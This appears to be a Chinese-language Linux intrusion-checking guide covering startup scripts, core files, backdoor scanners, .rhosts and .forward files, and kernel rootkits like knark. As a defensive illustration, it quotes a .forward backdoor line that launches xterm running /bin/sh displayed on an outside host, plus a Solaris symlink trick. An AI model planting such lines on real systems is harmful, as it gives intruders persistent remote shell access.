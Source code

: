 查看linux 开机启动程序    

a) 查看rc.local文件（/etc/init.d/rc.local /etc/rc.local）    

b) ls –alt /etc/init.d/    

c) chkconfig    
  
## 检查系统中的core文件

通过发送畸形请求来攻击服务器的某一服务来入侵系统是一种常规的入侵方法，典型的RPC攻击就是通过这种方式。这种方式有一定的成功率，也就是说它并不能100%保证成功入侵系统，而且通常会在服务器相应目录下产生core文件，全局查找系统中的core文件，输入find / -name core –exec ls –l {} \; 依据core所在的目录、查询core文件来判断是否有入侵行为。
  
## 检查系统后门
  
可以使用工具，如：clamAV（病毒库比较难下）、lynis（基础安全检查非常不错）、Conmodo、rkhunter、chkrootkit 等，  
当然也可以手工输入命令检查。
  

  
vim $HOME/.ssh/authorized_keys 查看ssh永久链接文件
  
lsmod 检查内核模块
  
chkconfig –list/systemctl list-units –type=service 检查自启
  

  
查看著名的木门后门程序：
  

  
ls /etc/rc.d
  
ls /etc/rc3.d
  
find / -name ".rhosts" –print
  
find / -name ".forward" –print

在某用户的$HOME下，.rhosts文件中仅包含两个+号是非常危险的，如果你的系统上开了513端口（rlogin端口，和telnet作用相同），那么任意是谁都可以用这个用户登录到你的系统上而不需要任何验证。  

Unix下在.forward文件里放入命令是重新获得访问的常用方法，在某一 用户$HOME下的.forward可能设置如下:  
`\username|"/usr/local/X11/bin/xterm -disp hacksys.other.dom:0.0 –e /bin/sh"`  

这种方法的变形包括改变系统的mail的别名文件(通常位于/etc/aliases). 注意这只是一种简单的变换. 更为高级的能够从.forward中运行简单脚本实现在标准输入执行任意命令(小部分预处理后).利用smrsh可以有效的制止这种后门(虽然如果允许可以自运行的elm's filter或procmail类程序, 很有可能还有问题。在Solaris系统下，如果你运行如下命令：  

ln -s /var/mail/luser ~/.forward  

然后设置vacation有效，那么/var/mail/luser就会被拷贝到~/.forward，同时会附加"|/usr/bin/vacation me"，旧的symlink被移到~/.forward..BACKUP中。  

直接删除掉这两个文件也可以。   

## 检查内核级后门

如果你的系统被人安装了这种后门，通常都是比较讨厌的，我常常就在想，遇到这种情况还是重新安装系统算了。  
言归正传，首先，检查系统加载的模块，在LINUX系统下使用lsmod命令，在solaris系统下使用modinfo命令来查看。这里需要说明的是，一般默认安装的LINUX加载的模块都比较少，通常就是网卡的驱动；而solaris下就很多，没别的办法，只有一条一条地去分析。对内核进行加固后，应禁止插入或删除模块，从而保护系统的安全，否则入侵者将有可能再次对系统调用进行替换。我们可以通过替换create_module()和delete_module()来达到上述目的。  
另外，对这个内核进行加固模块时应尽早进行，以防系统调用已经被入侵者替换。如果系统被加载了后门模块，但是在模块列表/proc/module里又看不到它们，有可能是使用了hack工具来移除加载的模块，大名鼎鼎的knark工具包就有移除加载模块的工具。出现这种情况，需要仔细查找/proc目录，根据查找到的文件和经验来判断被隐藏和伪装的进程。Knark后门模块就在/proc/knark目录，当然可能这个目录是隐藏的。  
  